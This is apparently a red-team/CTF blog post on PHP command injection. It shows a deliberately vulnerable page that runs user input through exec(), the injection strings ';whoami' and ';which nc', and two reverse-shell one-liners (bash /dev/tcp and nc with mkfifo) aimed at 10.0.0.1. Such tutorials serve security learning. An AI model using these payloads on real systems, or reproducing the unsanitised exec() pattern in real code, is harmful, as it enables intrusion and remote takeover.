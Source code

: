 ```yaml
---
layout: post
title:  "PHP Command Execution Vulnerability"
date:   2020-03-2 02:45:30 +0530
categories: redteam ctf
---
```


Command execution vulnerability occurs when a web page get the input from user and directly executes them as system command.
By exploiting Command execution vulnerability an attacker can executes system commands and also gain remote access to the system.  

## Vulnerable page
```
<?php   

if($_SERVER["REQUEST_METHOD"] == "POST") {
        //print_r($_POST);
        $command = $_POST['command'];
        $host = $_POST['host'];
        exec($command.' '.$host, $output, $return);
        //print_r($output);
}
?>
<html">
   
   <head>
      <title>Command Injection Vulnerability</title>
   </head>
   
   <body>
        <h1>Command Injection Vulnerability</h1>
        <form method="POST" action="">
        <select name="command">
                <option value="traceroute">traceroute</option>
                <option value="ping -c 1">ping</option>
        </select>
        <input type="text" name="host" value="8.8.8.8"/>
        <input type="submit" value="Execute!"/>
        </form>
        <?php if($output): ?>
        <?php foreach($output as $out): ?>
        <?php echo $out ?><br>
        <?php endforeach ?>
        <?php endif ?>
      <p><a href = "logout.php">Sign Out</a></p>
   </body>
   
</html>
```

## How to executes system commands
```
;whoami
;which nc
```

## Get shell access
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
or this command also used
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

I have taken this scripts from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
